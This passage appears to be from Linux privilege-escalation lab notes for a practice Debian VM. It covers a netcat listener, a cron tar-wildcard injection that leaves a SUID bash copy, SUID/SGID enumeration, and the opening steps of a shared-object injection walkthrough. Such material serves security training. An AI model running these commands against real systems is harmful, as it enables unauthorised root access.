```
nc -nvlp 4444
```

#### CronJobs - Wildcards No msfvenom

```
echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

* Wait the 1 minute or time defined by cron settings
* Once the cronjob hits run:

```
/tmp/bash -p
id
```

### SUID and SGID Executables --GTFO Bins

* Find all the SUID/SGID executables on the Debian VM:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

* Note that /usr/sbin/exim-4.84-3 appears in the results. Exploit is in this repo.
* Exploit-DB, Google, and GitHub are good places to search!
* Check GTFO Bins and Google for SUID/SGID!!!

### SUID-Shared Object Injection

* Detection

```
find / -type f -perm -04000 -ls 2>/dev/null
```

* Make note of all the SUID binaries
* The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
* First, execute the file and note that currently it displays a progress bar before exiting:
* Run strace on the file and search the output for open/access calls and for "no such file" errors:

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

* Output Looking for

```
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

* Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.
* Create the .config directory for the `libcalc.so` file:
